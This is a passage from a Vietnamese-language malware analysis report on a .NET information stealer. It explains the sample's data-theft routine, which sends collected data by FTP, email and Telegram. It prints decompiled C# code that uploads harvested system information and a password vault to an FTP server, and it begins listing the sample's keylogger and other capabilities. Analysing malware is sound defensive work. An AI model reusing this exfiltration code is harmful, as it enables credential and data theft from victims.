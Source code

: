 - `SpeedOffPWExport()` : là một data exfiltration function (hàm thu thập và truyền tải dữ liệu) được thiết kế để lấy cắp thông tin từ máy nạn nhân và gửi đi theo nhiều giao thức khác nhau (FTP, Email, Telegram).
   -   **FTP Upload Section:**
         -   Kiểm tra xem liệu cấu hình có bật chế độ FTP (`#FTPEnabled`) hay không.
        - Nếu có, chương trình tạo một `FtpWebRequest `để upload file đến một server FTP.
        - `ftpWebRequest.Method = "STOR"` cho thấy phương thức dùng để lưu trữ dữ liệu trên server.
        - Dữ liệu được upload bao gồm: `UltraSpeed.TheInfo` và `UltraSpeed.PasswordVault`.
        - Mã hóa dữ liệu thành dạng chuỗi bằng `Encoding.UTF8.GetBytes()` và ghi vào stream `requestStream`.
        -   Mã nguồn chức năng gửi qua **Email** và **Telegram** tương tự.


```csharp!
 if (Operators.CompareString(UltraSpeed.QJDFjPqkSr, "#FTPEnabled", false) == 0)
      {
        FtpWebRequest ftpWebRequest = (FtpWebRequest) NewLateBinding.LateGet((object) null, typeof (WebRequest), "Create", new object[1]
        {
          Operators.AddObject(Operators.AddObject((object) (UltraSpeed.FTP_Domain + MyProject.Computer.Name + "P"), UltraSpeed.Encoder), (object) ".txt")
        }, (string[]) null, (Type[]) null, (bool[]) null);
        try
        {
          ftpWebRequest.Method = "STOR";
          ftpWebRequest.Credentials = (ICredentials) new NetworkCredential(UltraSpeed.FTP_Username, UltraSpeed.FTP_Password);
          byte[] bytes = Encoding.UTF8.GetBytes("\r\n" + UltraSpeed.TheInfo + "\r\n" + UltraSpeed.PasswordVault + "\r\n\r\n\r\n\r\n\r\n--------------------------------------------------");
          ftpWebRequest.ContentLength = (long) bytes.Length;
          using (Stream requestStream = ftpWebRequest.GetRequestStream())
          {
            requestStream.Write(bytes, 0, bytes.Length);
            requestStream.Close();
          }
        }
        catch (Exception ex)
        {
          ProjectData.SetProjectError(ex);
          ProjectData.ClearProjectError();
          return;
        }
      }
```





  
 - `SpeedClipboard()`, `SpeedScreenshot()`,  `SpeedKeylog()`, `SpeedPassword()` đều là các method rỗng do đã bị obfucate nên việc tiếp tục trace là không phù hợp, tiến hành tìm các method chứa chức năng tương tự như tên của chúng, ta tìm được các chức năng sau:
 
    - `KeyLogger()` : Ghi lại ký tự người dùng nhập từ bàn phím
